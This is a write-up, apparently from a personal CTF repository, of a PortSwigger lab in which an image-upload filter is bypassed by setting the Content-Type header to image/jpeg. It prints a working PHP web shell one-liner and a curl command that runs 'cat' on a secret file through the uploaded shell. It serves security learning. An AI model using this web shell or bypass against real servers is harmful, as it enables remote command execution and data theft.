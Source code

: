 # Web shell upload via Content-Type restriction bypass

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass), you'll learn: Web shell upload via Content-Type restriction bypass! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216002619.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216002637.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216002643.png)

In the previous lab, we found the image upload function is vulnerable.

**Let's upload a normal image file and intercept the request via Burp Suite:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003207.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003237.png)

As you can see, we're sending a POST request to `/my-account/avatar`, and **the `Content-Type` is `image/jpeg`.**

**Let's forward that request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003327.png)

It said that the file has been uploaded.

**Next, we can try to upload a PHP web shell one liner, and intercept the request:**
```php
<?php system($_GET['cmd']); ?>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003413.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003434.png)

Now, the `Content-Type` is changed to `application/x-php`.

**But notice what will happened when we forward that request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003543.png)

That being said, looks like we couldn't upload a web shell?

However, the `Content-Type` can be fully-controlled by the attacker.

**We can just simply change the `Content-Type` from `application/x-php` to `image/jpeg` or `image/png`!**

**Let's do that:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003738.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003754.png)

Boom! We've successfully uploaded the web shell!

**In the previous lab, we found that the uploaded file lives in `/files/avatar/<filename>`. Let's trigger the web shell and `cat` the `secret`!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0aae00cf048ad257c40c7f24001d009d.web-security-academy.net/files/avatars/webshell.php --get --data-urlencode "cmd=cat /home/carlos/secret"
cn37DQhyNzu7Z80CzayF9giYekMXdTDC
```

# What we've learned:

1. Web shell upload via Content-Type restriction bypass